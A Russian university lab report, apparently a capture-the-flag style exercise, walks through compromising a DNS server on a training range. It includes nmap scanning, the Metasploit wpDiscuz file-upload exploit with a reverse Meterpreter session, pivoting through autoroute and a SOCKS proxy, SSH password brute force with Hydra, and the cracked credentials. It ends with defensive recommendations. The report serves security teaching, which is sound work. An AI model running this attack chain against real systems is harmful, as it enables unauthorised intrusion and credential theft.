---
format:
  pdf:
    pdf-engine: xelatex
    documentclass: article
    papersize: a4
    fontsize: 14pt
    mainfont: "Times New Roman"
    geometry:
      - top=20mm
      - bottom=20mm
      - left=30mm
      - right=15mm
lang: ru
---

```{=latex}
\begin{titlepage}
\thispagestyle{empty}
\centering

{\large\bfseries РОССИЙСКИЙ УНИВЕРСИТЕТ ДРУЖБЫ НАРОДОВ\par}

\vspace{12mm}

Факультет физико-математических и естественных наук\par
Кафедра теории вероятностей и кибербезопасности\par

\vspace{35mm}

{\Large\bfseries ЛАБОРАТОРНАЯ РАБОТА № 2\par}

\vspace{12mm}

на тему\par

\vspace{10mm}

{\Large\bfseries «Захват DNS-сервера»\par}

\vspace{12mm}

38.03.05 — Кибербезопасность в экономике\par

\vspace{25mm}

\begin{flushright}
\textbf{Выполнили:}\\[3mm]
Студенты группы \textbf{НБИбд-01-23}\\[5mm]
Карпачев Ярослав\\
Камалиева Лия\\
Дашкина Анита\\
Тураева Оиша\\
Кузнецова Александра\\
Дрожжанова Алена
\end{flushright}

\vfill

Москва — 2026\par
\end{titlepage}
```

## Цель работы

Изучить методы обнаружения, анализа и устранения последствий компьютерных атак на сегмент автоматизированной системы управления технологическими процессами (АСУ ТП), а также приобрести практические навыки выявления уязвимостей в корпоративной инфраструктуре.

В рамках лабораторной работы необходимо получить доступ к внутреннему DNS-серверу учебного стенда и найти флаг в файле `/etc/hosts`.

## Введение

### Актуальность

Защита сегмента АСУ ТП является одной из ключевых задач обеспечения информационной безопасности промышленных предприятий. Компрометация DNS-сервера позволяет злоумышленнику перенаправлять трафик, внедряться в доверенные соединения и получать доступ к критически важным узлам инфраструктуры.

В связи с этим изучение методов обнаружения, анализа и устранения последствий компьютерных атак на DNS-инфраструктуру представляет практическую значимость.

### Задачи работы

В ходе выполнения лабораторной работы необходимо:

- изучить сценарий атаки на сегмент АСУ ТП;
- выполнить разведку сети учебного стенда;
- выявить уязвимости промежуточного узла;
- настроить доступ к внутренней сети;
- определить расположение DNS-сервера;
- получить доступ к DNS-серверу и найти флаг;
- сформулировать рекомендации по устранению выявленных уязвимостей.

## Выполнение лабораторной работы

### 1. Разведка и выбор атакуемого узла

Для доступа к внутренней сети необходимо предварительно получить доступ к промежуточному узлу, расположенному во внешнем сегменте учебного стенда.

Перед началом выполнения задания проведем разведку с помощью утилиты `nmap`:

```bash
nmap -sV -sC 195.239.174.0/24
```

Используемые параметры:

- `-sV` — определение версий служб на открытых портах;
- `-sC` — запуск стандартных скриптов Nmap Scripting Engine.

{#fig-001 width=100%}

В результате сканирования обнаружен сервер с адресом `195.239.174.25`. На нем открыты порты 80, 443 и 8888. На порту 80 располагается веб-портал `portal.ampere.corp`.

Для обращения к порталу по доменному имени добавим статическую запись в файл `/etc/hosts`:

```text
195.239.174.25 portal.ampere.corp
```

{#fig-002 width=100%}

Веб-портал работает на CMS WordPress. Для исследования установленных компонентов используем модуль Metasploit `wordpress_scanner`.

Поиск модуля:

```text
search wordpress scanner
```

{#fig-003 width=100%}

Выберем модуль и просмотрим его параметры:

```text
use auxiliary/scanner/http/wordpress_scanner
options
```

{#fig-004 width=100%}

Укажем целевой узел и запустим сканирование:

```text
set RHOSTS portal.ampere.corp
run
```

{#fig-005 width=100%}

{#fig-006 width=100%}

В результате сканирования обнаружены следующие плагины:

- Duplicator — версия 1.3.26;
- Elementor — версия 3.11.0;
- WpDiscuz — версия 7.0.2;
- WP Essential — версия 5.7.1;
- WP File Manager — версия 7.1.2.

Для дальнейшего выполнения задания выбран плагин WpDiscuz, содержащий уязвимость загрузки файлов, которая может привести к удаленному выполнению кода.

### 2. Эксплуатация уязвимости плагина WpDiscuz

Для получения Meterpreter-сессии на корпоративном портале учебного стенда используем модуль `wp_wpdiscuz_unauthenticated_file_upload`.

Выполним поиск:

```text
search wpdiscuz exploit
```

{#fig-007 width=100%}

Выберем модуль и отобразим параметры:

```text
use unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
options
```

{#fig-008 width=100%}

Для выполнения задания зададим адрес целевой машины, путь к записи с возможностью комментирования и адрес машины, принимающей обратное подключение:

```text
set RHOSTS 195.239.174.25
set BLOGPATH /index.php/2021/07/26/hello-world/
set LHOST 195.239.174.125
run
```

{#fig-009 width=100%}

В результате запуска модуля получена Meterpreter-сессия от имени пользователя `www-data`.

Для определения операционной системы промежуточного узла выполним:

```text
sysinfo
```

На исследуемом узле установлена операционная система Linux.

### 3. Настройка доступа к внутренней сети

#### 3.1. Повышение стабильности сессии

Первоначальная сессия использует PHP-полезную нагрузку. Для дальнейшей работы выполним обновление сессии:

```text
sessions -u 1
```

{#fig-010 width=100%}

После выполнения команды создана новая сессия с более стабильной полезной нагрузкой.

#### 3.2. Определение внутренней подсети

Просмотрим сетевые интерфейсы и таблицу маршрутизации:

```text
ipconfig
route
```

{#fig-011 width=100%}

По результатам анализа определено, что внутренняя сеть организации имеет адрес `10.10.10.0/24`.

Для обнаружения доступных узлов используем модуль `ping_sweep`:

```text
run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24
```

{#fig-012 width=100%}

В результате обнаружены активные узлы, включая:

- `10.10.10.15`;
- `10.10.10.20`;
- `10.10.10.30`.

#### 3.3. Добавление маршрута и настройка прокси

Поскольку внутренняя подсеть недоступна напрямую, добавим маршрут через установленную Meterpreter-сессию:

```text
run autoroute -s 10.10.10.0/24
```

{#fig-013 width=100%}

Для организации прокси используем модуль:

```text
auxiliary/server/socks_proxy
```

Параметры прокси должны соответствовать настройкам файла `/etc/proxychains4.conf`.

После запуска прокси можно приступить к исследованию узлов внутренней сети.

### 4. Поиск DNS-сервера

Для поиска DNS-сервера проверим доступность порта 53 на обнаруженных узлах:

```bash
proxychains nc -zv 10.10.10.15 53
proxychains nc -zv 10.10.10.20 53
```

{#fig-014 width=100%}

Проверка показала, что порт 53 открыт на обоих узлах.

Для получения дополнительной информации выполним сканирование TCP-портов через прокси:

```bash
proxychains nmap -sT -Pn -n 10.10.10.15 10.10.10.20 --top-ports 50 --open
```

{#fig-015 width=100%}

На узле `10.10.10.15` обнаружены открытые порты:

- 22 — SSH;
- 53 — DNS.

На узле `10.10.10.20` обнаружены порты 53, 135, 139, 445 и 3389. Такое сочетание служб характерно для контроллера домена Windows.

Для дальнейшего выполнения задания выбран узел `10.10.10.15`, идентифицированный в рамках учебного стенда как DNS-сервер.

### 5. Получение доступа к DNS-серверу

На DNS-сервере доступен SSH-сервис. В рамках задания учебного стенда выполним подбор пароля учетной записи `user`.

#### 5.1. Подбор пароля с помощью Hydra

Проверим доступность SSH-порта:

```bash
proxychains nc -zv 10.10.10.15 22
```

{#fig-016 width=100%}

Запустим Hydra через прокси:

```bash
proxychains hydra -V -f -l user -P /usr/share/wordlists/rockyou.txt -t 1 10.10.10.15 ssh
```

{#fig-017 width=100%}

По результатам выполнения команды обнаружены учетные данные:

- имя пользователя — `user`;
- пароль — `california101`.

#### 5.2. Подбор пароля с помощью Metasploit

Альтернативный способ — использование модуля:

```text
use auxiliary/scanner/ssh/ssh_login
```

{#fig-018 width=100%}

Настроим параметры:

```text
set BRUTEFORCE_SPEED 3
set VERBOSE true
set THREADS 1
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME user
set RHOSTS 10.10.10.15
run
```

{#fig-019 width=100%}

В результате работы модуля подобран пароль `california101` и получена shell-сессия.

### 6. Получение флага

Подключимся к DNS-серверу по SSH через настроенный прокси:

```bash
proxychains ssh user@10.10.10.15
```

При запросе пароля введем найденный пароль.

{#fig-020 width=100%}

После успешного подключения просмотрим содержимое файла `/etc/hosts`:

```bash
cat /etc/hosts
```

{#fig-021 width=100%}

В файле обнаружен флаг:

```text
flag: 39471
```

{#fig-022 width=100%}

{#fig-023 width=100%}

## Результаты работы

В ходе выполнения лабораторной работы:

- проведена разведка внешней сети учебного стенда;
- обнаружен веб-портал на базе CMS WordPress;
- выявлен уязвимый плагин WpDiscuz;
- получена Meterpreter-сессия на промежуточном узле;
- добавлен маршрут во внутреннюю сеть `10.10.10.0/24`;
- настроен прокси для обращения к внутренним узлам;
- определен DNS-сервер с адресом `10.10.10.15`;
- подобраны учетные данные SSH: `user` / `california101`;
- получен доступ к DNS-серверу;
- найден флаг в файле `/etc/hosts`: `flag: 39471`.

## Рекомендации по защите

Для устранения выявленных уязвимостей рекомендуется:

- своевременно обновлять CMS WordPress и установленные плагины;
- удалять неиспользуемые компоненты веб-портала;
- применять сложные уникальные пароли;
- использовать аутентификацию SSH по ключам;
- ограничивать доступ к SSH-сервису DNS-сервера;
- разделять внешнюю и внутреннюю сети с помощью правил межсетевого экранирования;
- регистрировать и анализировать попытки входа;
- применять средства обнаружения вторжений и ограничения повторных попыток аутентификации.

## Заключение

Цель лабораторной работы достигнута: получен доступ к внутреннему DNS-серверу учебного стенда и найден флаг в файле `/etc/hosts`.

В ходе работы приобретены практические навыки разведки сети, анализа компонентов CMS WordPress, эксплуатации уязвимости в учебной среде, настройки маршрутизации через промежуточный узел и исследования доступных сетевых служб.

Результаты работы показывают, что сочетание устаревшего программного обеспечения, недостаточного ограничения доступа между сегментами сети и слабого пароля может привести к компрометации внутреннего сервера.
